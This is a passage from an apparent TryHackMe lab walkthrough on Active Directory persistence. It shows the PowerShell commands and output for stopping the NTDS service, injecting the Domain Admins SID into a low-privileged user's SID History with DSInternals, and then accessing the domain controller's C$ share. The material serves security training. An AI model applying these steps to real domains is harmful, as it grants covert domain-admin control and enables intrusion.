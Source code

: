 
This confirms that our user does not currently have any SID History set. Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:

```markup
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored:


```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds  
```

The NTDS database is locked when the NTDS service is running. In order to patch our SID history, we must first stop the service. **You must restart the NTDS service after the patch, otherwise, authentication for the entire network will not work anymore.**

After these steps have been performed, let's SSH into THMWRK1 with our low-privileged credentials and verify that the SID history was added and that we now have Domain Admin privileges:

```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory 

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc 
Enabled : True 
GivenName : Aaron 
Name : aaron.jones 
ObjectClass : user 
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22 
SamAccountName : aaron.jones 
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512} 
Surname : Jones 
UserPrincipalName : 

PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$ 

Directory: \\thmdc.za.tryhackme.loc\c$ 

Mode LastWriteTime Length Name 
---- ------------- ------ ---- 
d----- 9/15/2018 8:19 AM PerfLogs 
d-r--- 5/11/2022 10:32 AM Program Files 
d----- 3/21/2020 8:28 PM Program Files (x86) 
d----- 4/25/2022 7:13 PM tmp 
da---- 5/11/2022 10:11 AM Tools 
d-r--- 4/27/2022 8:22 AM Users 
d----l 4/25/2022 7:11 PM vagrant 
```
